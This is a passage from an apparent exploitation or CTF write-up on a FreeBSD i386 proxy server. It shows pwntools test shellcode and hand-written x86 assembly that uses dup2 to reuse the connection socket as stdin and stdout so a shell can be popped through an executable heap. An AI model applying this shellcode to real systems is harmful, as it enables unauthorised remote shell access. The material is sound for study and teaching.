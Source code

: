 ```
context.os = 'freebsd'
context.arch = 'i386'

shellcode_d = shellcraft.i386.infloop()
shellcode = asm(shellcode_d).ljust(120,"\x90")
```
Actually there is no reason to pad it with NOP since we know the heap addresses already (No ASLR) but I just did it for no reason.

Using this shellcode I test my exploit, and compared the results with this shellcode (an instant crash shellcode):
```
context.os = 'freebsd'
context.arch = 'i386'

shellcode_d = shellcraft.i386.crash()
shellcode = asm(shellcode_d).ljust(120,"\x90")
```

On the exploit using the first shellcode the proxy server did not send an EOF but in the second exploit I got an immediate EOF after the 33rd entry was added. This means the heap is executable and we have shellcode RCE!

## Writing Shellcode
After some research I realized that FreeBSD's syscall convention was different with linux. In a linux x86 syscall convention the arguments are passed in ebx, ecx, edx,... registers. However in FreeBSD the registers are passed via the stack, as in x86 linux function calling conventions. Also we don't have access to the proxy server's stdin or stdout. We first need to dup2 fd 0 and 1 to the socket and pop a shell. How do we know the fd of the socket? We can bruteforce or guess or try all of them but a smart way to do this is to use the fd stored in the stack at [ebp+0x8] as a local variable. We can figure this out by analyzing the variable allocations in the disassembly. Now my full shellcode is the following (It took some time to write it since it had to avoid some characters)

The first part is to do dup2(sockfd, 1)

```
xor eax,eax
xor ebx,ebx
xor ecx,ecx
xor edx,edx
mov al,90
mov bl,[ebp+8]
mov cl,1
push ecx
push ebx
push eax
int 0x80
```

The first part is to do dup2(sockfd, 0)
```
xor eax,eax
xor ebx,ebx
xor ecx,ecx
xor edx,edx
mov al,90
mov bl,[ebp+8]
push ecx
push ebx
push eax
int 0x80
```
